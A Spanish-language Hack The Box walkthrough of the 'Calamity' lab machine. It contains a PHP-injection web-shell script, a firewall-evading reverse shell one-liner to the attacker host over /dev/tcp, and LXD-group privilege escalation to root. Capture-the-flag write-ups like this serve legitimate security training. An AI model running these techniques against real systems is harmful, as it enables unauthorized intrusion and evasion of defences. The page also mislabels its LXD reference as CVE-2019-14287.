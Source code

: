 ```yaml
---
title : Máquina|Calamity|HTB|LXD
published : True
---
```

<div class="contenedor">
    <img src="imgs/Calamity/Calamity0.png" width="160" alt="Cheese logo">
    <div>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Dificil. </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://app.hackthebox.com/machines/Calamity" style="color: l
ightblue;">Calamity</a></p>
    </div>
</div>

 <h2><font color="white"><center> # Calamity</center></font></h2>
* Empezamos con la enumeración de puertos.
> sudo nmap --min-rate 5000 -sS -Pn --open -p- 10.10.10.27
>
<img src="imgs/Calamity/Calamity1.png">

<br>
* Posteriormente vemos la version y servicio que corren en estos puertos.
>nmap -sCV -p22,80 10.10.10.27
>
<img src="imgs/Calamity/Calamity2.png">

<br>
* Empezamos la identificación de tecnologías plugins y versiones para esta pagina web.
>
<img src="imgs/Calamity/Calamity3.png">

<br>
* Probamos credenciales por defecto por ssh ya que es el puerto con un poco mas de relevancia, pero no obtenemos nada relevante.
>ssh anonymous@10.10.10.27
>
<img src="imgs/Calamity/Calamity4.png">

<br>
* Lanzamos un script de nmap para el reconocimiento de posibles rutas en la pagina web.
> nmap --script http-enum -p80 10.10.10.27
>
<img src="imgs/Calamity/Calamity5.png">

<br>

* Observando las rutas, veo que hay credenciales en la pagina web.
>
<img src="imgs/Calamity/Calamity6.png">

* Cuando inicio sesion tenemos un campo el cual es injectable a código php, y obtenemos un RCE.
>
<img src="imgs/Calamity/Calamity7.png">

<br>
* Cuando intento crearme una reverse Shell no me llega la conexión, lo que me hace pensar que tiene reglas de firewall instaladas para matar la conexión cuando se detecte, por lo que empezamos a montar un script en python simulando una Shell.


```python
#!/usr/bin/python

import requests

while True:

	command = input("~$ ")
	url = f'http://10.10.10.27/admin.php/?0={command}&html=%3C?=`$_GET[0]`;?%3E' 

	cookies = {
	    'adminpowa': 'noonecares'
	}

	response = requests.get(url, cookies=cookies)

	print(response.text)

```
<br>
* web-shell.py
>
<img src="imgs/Calamity/Calamity8.png">

* Si el cortafuegos me mata la conexión cuando detecta el uso de bash, porque no cambiar el nombre de bash?
>
<img src="imgs/Calamity/Calamity9.png">
<img src="imgs/Calamity/Calamity10.png">

* Renombrando la bash intentemos ahora entablar la conexión, pero para que no de problemas en cabeza a el urlencode codificamos primero la petición en ese formato que poseerá la Reverse Shell.
>/tmp/bypass -c '/tmp/bypass -i >& /dev/tcp/10.10.14.4/4445 0>&1'
>
<img src="imgs/Calamity/Calamity11.png">

<br>
* Posteriormente mandamos la petición y nos ponemos en escucha
>sudo nc -nlvp 4445
>
<img src="imgs/Calamity/Calamity12.png">

* Empezamos con un corto tratamiento a la consola para hacerla un poco mas interactiva.
```bash
script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset xterm
```
>
<img src="imgs/Calamity/Calamity13.png">

<br>
* Exportamos configuraciones para hacerla aun mas interactiva.
```bash
export TERM=xterm
export SHELL=bash
```
>
<img src="imgs/Calamity/Calamity14.png">

* Observamos que hay un usuario en /home y conseguimos la primera Flag.
>
<img src="imgs/Calamity/Calamity16.png">

* Vemos que efectivamente había un firewall que nos mataba las conexiones.
>
<img src="imgs/Calamity/Calamity17.png">

* Vemos dos archivo con la misma extension.
>
<img src="imgs/Calamity/Calamity18.png">

<br>
* Nos transferimos esos archivos para examinarlos mas a fondo.
>
<img src="imgs/Calamity/Calamity19.png">

* Tienen el mismo sonido pero no el mismo identificador.
>
<img src="imgs/Calamity/Calamity20.png">

* Instalamos audacity.
> sudo apt-get install aducity

<br>
* Importamos los audios y le damos en la parte de invertir.
>
<img src="imgs/Calamity/Calamity21.png">

<br>
* Posteriormente podemos escuchar que nos dice una credencial al inicio y una parte al final, como el audio esta inverso la parte final es la inicial y la parte inicial es la parte final.
> Credencial escuchada : 18547936..*

<br>
* Mirando mas a detalle identifique que la credencial era del usuario xalvas.
>
<img src="imgs/Calamity/Calamity22.png">

<br>

* Al ver los grupos vemos que estamos enlazados a (LXD) lo que hace vulnerable al equipo a un ataque (LXD) para el despliegue de contenedores.
<a href="https://otterhacker.github.io/Pentest/Techniques/Privileges%20escalation/Linux.html">Mas información CVE-2019-14287.</a>
>
<img src="imgs/Calamity/Calamity23.png">

<br>
* Posteriormente vemos que hay un exploit creado por s4vitar que simplemente lo que hace es automatizar el levantamiento del contenedor.
>
<img src="imgs/Calamity/Calamity24.png">

<br>
* Nos dice que tenemo que descarga el archivo alpine-builder.
>
<img src="imgs/Calamity/Calamity25.png">

<br>
* Una vez descargado lo que hacemos sera darle soporte a las dependencias, ya que de por si si lo ejecuta sin actualizar la dependencia le dara errores.
>wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine && sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
>
<img src="imgs/Calamity/Calamity26.png">

* Convertimos a formato Unix el script.
>dos2unix 46978.sh
>
<img src="imgs/Calamity/Calamity27.png">

* Vemos que la maquina es de 32 bits sabemos esto por el i686, esto es importante en base a la creación del docker.
>uname -a
>
<img src="imgs/Calamity/Calamity28.png">

* Posteriormente damos permisos de ejecución y preparamos el build en formato de 32 bits.
> 
>
<img src="imgs/Calamity/Calamity29.png">

* Nos montamos un servidor http para poder compartir los archivos y los descargamos en la maquina de htb, cabe aclarar que la única ruta donde tenemos permisos de escritura es en /dev/shm.
>
<img src="imgs/Calamity/Calamity30.png">

<br>
* Procedemos con la ejecución del docker.
>
<img src="imgs/Calamity/Calamity31.png">

* El error que aparece es porque se esta invocando el docker dos veces para solucionar ese error simplemente comentamos la siguiente linea de código.
>
<img src="imgs/Calamity/Calamity32.png">

<br>

* Procedemos a subir el archivo con las modificaciones realizadas.
>
<img src="imgs/Calamity/Calamity33.png">

* Cuando volvamos a ejecutar el script nos dará root
>
<img src="imgs/Calamity/Calamity34.png">

<br>

* Lo que hace es montar toda la partición de la raíz en un contenedor el cual esta montado en /mnt/root/ Cualquier cosa que modifique en esa montura la modificara en la maquina real, entonces para ganar root completamente agregamos permisos SUID al binario /bin/bash.
>
<img src="imgs/Calamity/Calamity35.png">

<br>

* Ya podríamos ver la flag de root.
>
<img src="imgs/Calamity/Calamity35.png">
